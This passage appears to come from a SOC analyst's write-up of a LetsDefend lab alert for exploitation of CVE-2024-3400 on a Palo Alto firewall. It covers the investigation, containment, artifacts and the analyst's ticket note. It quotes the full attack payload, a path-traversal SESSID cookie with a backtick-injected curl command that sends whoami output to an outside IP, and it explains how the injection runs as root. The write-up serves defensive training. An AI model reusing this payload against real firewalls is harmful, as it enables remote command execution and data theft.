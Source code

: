 The cookie variable sent is hitting a one of the telemetry paths, so this will create a zero length file at this location. Because it's in the a telemetry directory and `IFS` was used as a space character, so the firewalls telemetry service will send this file to PA, but the string `curl${IFS}144.172.79.92:4444?user=$(whoami)` will be run as a separate curl command causing the firewall to connect to the attackers IP address on port 4444 using curl. It will also run the `whoami` command and send that output with curl to the attackers IP address. 
```shell
SESSID=./../../../opt/panlogs/tmp/device_telemetry/hour/aaa`curl${IFS}144.172.79.92:4444?user=$(whoami)
```

One thing to note is there isn't another back tick and semi colon at the end of this string, so will the command succeeded, or did lets defend mess up writing this alert? We have to check the logs on this firewall to see what HTTP response the firewall gave this request to really know if was successful. 

Hmm I'm not finding HTTP response logs in `Log Managment` section of letsdefend, so maybe we can see if the firewall connected to the attacker. I'm not finding logs with destination IP of attackers IP either. Maybe this attack did fail... I don't know what else to check though to say for sure. 

Turning back to the playbook for ideas I read about checking command history on device, so I head back to `Endpoint Security` connection. I check `Network Action` setting and find the firewall did connect to the attackers IP address on `Apr 18 2024 15:09:42` which is the same time our alert was triggered.
![ld-log.png](/palo-alto-networks-pan-os-command-injection-vulnerability-exploitation-cve-2024-3400/ld-log.png)

I'm going to go ahead and contain this firewall real quick because it does look like the attack was successful. In the real world at a real company I would follow our process for containment which might even involve escalating this to someone else, but I wouldn't just be yanking remote access VPN firewalls off the network on a hunch.

I don't see anything related to this alert under processes, terminal history, and browser history. I would think that `curl` and/or `whoami` would be here, but I guess not. 

### Artifacts
Well I'm not sure what else to investigate inside the letsdefend lab, so let's grab some artifacts.

Just doing the IP address for this one.

144.172.79.92 - Malicious IP exploiting CVE-2024-3400 on PA firewalls on our network.

### Escalation
Considering I found this to be successful I will choose to escalate this as that's what letsdefend tells you to do, but in a real job I would learn and follow the companies process for escalation.

### Analyst Note
This is the note I would leave in the ticket, so tier 2 can hopefully understand the issue quickly.

Legit exploitation of CVE-2024-3400 on PA firewall configured for VPN remote access. POST request was sent to publicly available endpoint with Cookie header set to SESSID equal to file path that allows arbitrary file creation. Telemetry services on firewall will run new file names in this directory as system commands as root user if back ticks and `IFS` techniques are used in file creation. This attack is using curl to send other commands outputs to their infrastructure.
